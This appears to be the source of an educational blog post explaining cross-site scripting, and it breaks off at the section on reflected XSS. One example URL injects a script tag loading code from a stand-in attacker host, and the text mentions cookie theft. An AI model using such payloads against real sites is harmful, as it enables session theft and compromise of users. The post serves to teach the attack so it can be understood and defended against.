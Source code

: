 ```yaml
---
layout: post
title: "Uncovering Attacks: Cross-site Scripting (XSS)"
date: 2020-05-08 10:00:00 +0500
categories: attacks xss
---
```


In this episode of "Uncovering Attacks", let's explore 'Cross-site Scripting' or which commonly goes by its acryonym, 'XSS'.

Cross-site scripting is a web security vulnerability or injection attack in which users can inject a malicious script into a website. It is used to circumvent the 'Same-origin Policy', which is used to make sure that two resources that attempt to work together belong to the same origin - having the same port, host, and protocol. Once injected, the malicious code is then seen by users, tricking them into executing it, because the server doesn't realize it's being compromised.

# How Does XSS Work?

Cross-site scripting starts off with the malicious user finding input statements which are susceptible to unsanitized inputs. Usually, actors make use of them to send in malicious code, which is executed under the user's current context in the browser, and the results are returned. This can help the actor compromise their interactions with the application.

As an example, here's a website that the user can visit:

    http://iaminsecure.com/comment?username=sid&message=youaregood

Since the actor is able to see these parameters back on his own browser, this can possibly lead to XSS. Let's say, he puts in a comment (and we'll discuss this in detail sooner!) with a Javascript segment using the 'script' keyword like this:

    http://iaminsecure.com/comment?username=eve&message=<script src=http://iammalicious.com/script.js></script>

Once the comment is made, this link is now stored on the server's end and is executed every single time, the query is made to extract this particular comment.

These scripts can do anything from snooping on the user's inputs, stealing their session cookies, or target other users which can help the actor completely compromise a website - since XSS is more on the browser/client end until escalated. XSS can also lead to defacement, where the content of the webpage is replaced by what the malicious user wants the actual user to see - though this can lead to early detection.

# Types or Classes of XSS

There are three main types of Cross-site Scripting (XSS):

1. Reflected XSS
2. DOM-based XSS
3. Stored XSS

## Reflected XSS
